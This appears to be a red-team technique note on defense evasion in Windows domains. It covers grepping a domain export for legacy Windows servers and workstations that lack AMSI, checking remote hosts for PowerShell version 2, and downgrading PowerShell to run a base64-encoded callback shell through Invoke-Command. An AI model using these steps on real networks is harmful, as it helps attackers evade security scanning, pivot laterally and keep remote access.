 # Description

The best defense evasion which is the most efficient way is to find legacy operating systems to lay a low profile in the network traffic to establish persistence to maintain access. Especially these legacy systems do not contain up-to-date security solutions. The main benefit is it is not required to re-implement the implant. It is easier to laterally pivot the machines with little effort.

## 01 - Lack of AMSI Scanner

### 1.1 - Windows Servers

- Windows Server 2003

```
$ grep 'Windows Server 2003' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2003-output.txt
```

- Windows Server 2008 R2

```
$ grep 'Windows Server 2008' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2008-output.txt
```

- Windows Server 2012

```
$ grep 'Windows Server 2012' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-servers-2012-output.txt
```

### 1.2 - Windows Workstations

- Windows XP

```
$ grep 'Windows XP' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-xp-output.txt
```

- Windows 7

```
$ grep 'Windows 7' domain-network.csv | grep -oP '^:"CN=.*?,' > windows-7-output.txt
```

## 02 - Downgrade Powershell

### 2.1 - Enumerate Powershell Version 2

```
PS C:\> $PSVersionTable

PS C:\> Get-WindowsFeature PowerShell-V2

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { Get-WindowsFeature PowerShell-V2 }

PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { $PSVersionTable }
```

### 2.2 - Execute Callback Shell

```
PS C:\> Invoke-Command -ComputerName <IP> -ScriptBlock { powershell -version 2 -e <base64_payload> }
```

---
## References

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/01 - Enumeration and Discovery/Windows/Active Directory/02 - Domain Controller/DC/Manual/Living off the Land|Living off the Land: Domain Controller]]

- [[Tactics && Techniques && Procedures (TTPs) Phases/F - Post Exploitation/01 - Enumeration and Discovery/Windows/Active Directory/03 - Domain Computers/Offensive Tools/Scripts/PowerSploit|PowerSploit: Active Directory Networking]]